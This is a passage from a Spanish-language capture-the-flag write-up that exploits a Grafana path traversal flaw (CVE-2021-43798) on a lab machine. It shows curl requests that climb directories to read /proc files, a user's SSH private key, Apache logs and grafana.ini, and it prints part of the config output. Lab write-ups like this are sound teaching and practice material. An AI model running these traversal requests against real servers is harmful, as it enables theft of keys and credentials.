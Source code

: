 No podemos ver 

```bash
❯ curl -s -X GET 'http://10.10.11.183:3000/public/plugins/alertlist/../../../../../../../../../../../../../proc/net/fib_trie' --path-as-is
seeker can't seek
```

Como sabemos que el usuario **developer** existe podemos ver si obtenemos su clave **id_rsa** para conectarnos por **SSH**, pero nos da un error

```bash
❯ curl -s -X GET 'http://10.10.11.183:3000/public/plugins/alertlist/../../../../../../../../../../../../../home/developer/.ssh/id_rsa' --path-as-is
{"message":"Could not open plugin file"}

```

Podemos listar procesos que estén corriendo en la maquina pero no nos deja

```bash
❯ curl -s -X GET 'http://10.10.11.183:3000/public/plugins/alertlist/../../../../../../../../../../../../../proc/sched_debug' --path-as-is
seeker can't seek
```

Si intentamos hacer un **Log Poisoning** no podremos por que no nos deja ver archivos con los cuales podamos ver los **logs** aunque se este corriendo **Apache2** 

```bash
❯ curl -s -X GET 'http://10.10.11.183:3000/public/plugins/alertlist/../../../../../../../../../../../../../var/log/apache2/access.log' --path-as-is
{"message":"Could not open plugin file"}
```

Bueno si vamos probando rutas pues no encontraremos nada interesante pero bueno me puse a buscar en github información para la versión de **Grafana** que se esta empleando y hay un repositorio donde se encuentran varias rutas entre ellas hay rutas donde involucra **grafana** <https://github.com/pedrohavay/exploit-grafana-CVE-2021-43798/blob/main/paths.txt>

Si intentamos con este archivo funciona y encontramos credenciales para la base de datos ya que se esta corriendo **Mysql** que **Nmap** lo reporto en el escaneo

```bash
❯ curl -s -X GET 'http://10.10.11.183:3000/public/plugins/alertlist/../../../../../../../../../../../../../etc/grafana/grafana.ini' --path-as-is

```

```bash
#################################### Database ####################################
[database]
# You can configure the database connection by specifying type, host, name, user and password
# as separate properties or as on string using the url properties.

# Either "mysql", "postgres" or "sqlite3", it's your choice
;type = sqlite3
;host = 127.0.0.1:3306
;name = grafana
;user = root
# If the password contains # or ; you have to wrap it with triple quotes. Ex """#password;"""
;password =
```
